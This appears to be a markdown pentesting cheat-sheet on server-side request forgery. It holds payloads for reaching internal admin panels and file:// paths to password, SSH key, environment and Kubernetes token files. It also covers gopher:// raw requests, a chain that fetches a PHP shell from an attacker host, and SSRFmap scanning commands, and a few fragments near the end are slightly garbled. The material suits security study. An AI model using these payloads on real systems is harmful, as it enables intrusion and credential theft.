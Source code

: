 **SSRF** (Server-Side Request Forgery) is a type of vulnerability where an attacker can manipulate a server to make requests to unintended internal or external systems. 

## Basic Example of SSRF

**Vulnerable functionality:**  
A web app accepts a user-supplied URL to fetch and display an image:

```http
GET /fetch?url=http://example.com/image.jpg HTTP/1.1
Host: vulnerable-app.com
``` 

**Exploitation example:**  
An attacker provides a URL pointing to an internal service:
```http
GET /fetch?url=http://localhost:8000/admin HTTP/1.1
``` 


## SSRF to LFI (Local File Inclusion)

You can abuse SSRF to access local files on the server if `file://` scheme is allowed.

**Examples:**
```bash
file:///etc/passwd  
file:///etc/shadow  
file:///etc/hosts  
file:///etc/hostname  
file:///etc/mysql/my.cnf  
file:///var/www/html/config.php  
file:///root/.bash_history  
file:///home/user/.ssh/id_rsa  
file:///root/.ssh/authorized_keys  
file:///proc/self/environ  
file:///proc/version  
file:///proc/cmdline  
file:///proc/self/status  
file:///proc/self/fd/1  
file:///proc/self/fd/2  
file:///proc/net/tcp  
file:///proc/net/udp  
file:///proc/net/fib_trie  
file:///proc/self/cgroup  
file:///sys/class/net/eth0/address  
file:///var/log/apache2/access.log  
file:///var/log/nginx/access.log  
file:///var/lib/docker/containers/<container_id>/config.v2.json  
file:///run/secrets/kubernetes.io/serviceaccount/token
``` 

You can also make the server request a file to an external host (Controlled by the attackant) and try to **save the response to a location** that you can later access from the web. For example, targeting a web-accessible uploads folder:
```bash
http://<attackant_ip>/output.txt -o /uploads/output.txt-> saved to /var/www/html/uploads/output.txt
```
Then try to access: `http://target/uploads/output.txt`

#### Gopher in SSRF  
The `gopher://` protocol lets you craft raw TCP requests via SSRF. It's useful for attacking services like Redis, HTTP, or internal APIs by manually building requests.
```bash
gopher://127.0.0.1:80/_GET /admin HTTP/1.1%0aHost: localhost%0a%0a
```
This sends a raw HTTP request to an internal admin panel.

## SSRF to RCE (Remote Code Execution)
If the target server allows file upload or execution, you can try to execute a reverse shell.

- Host your shell file:
```bash
python3 -m http.server 8000
``` 

- Force the vulnerable server to fetch it:

```bash
http://<LAB_IP>:8000/shell.php
``` 
- Use SSRF to send a request:
```bash
/upload?url=http://<your-ip>:8000/shell.php
``` 
- Then access `/uploads/shell.php` on the target.
```bash
file:///etc/passwd
da mas opciones
``` 



## SSRFmap
**ssrfmap.py** is a tool designed to automate the exploitation of SSRF vulnerabilities. It allows attackers or pentesters to utilize and manipulate input parameters that trigger server-side requests to perform various malicious activities, such as port scanning, service enumeration, and exploitation of other internal resources.
#### Installation 
```bash
git clone https://github.com/swisskyrepo/SSRFmap
cd SSRFmap
pip3 install -r requirements.txt
```
#### Configuration
The `request.txt` file should contain the full HTTP request that the web application makes when provided with a URL. This file might look like this:
```bash
GET /fetch?url=http://example.com/image.jpg HTTP/1.1
Host: vulnerable-app.com
User-Agent: Mozilla/5.0
```
#### Port scanning
To scan ports on an internal IP address, you can use the following command:
- Parameters: 
	- `-r`: name of the file where the request has been saved.
	- `-p`: name of the potentially vulnerable parameter on the request.
	- `-m`: module that we want to execute, in this case portscan.
```bash
python3 ssrfmap.py -r <request> -p <vulnerable_parameter> -m portscan
```
#### Service enumeration
To enumerate services, you can use:
```bash
python3 ssrfmap.py -r request.txt --url "http://127.0.0.1:8000" --data
```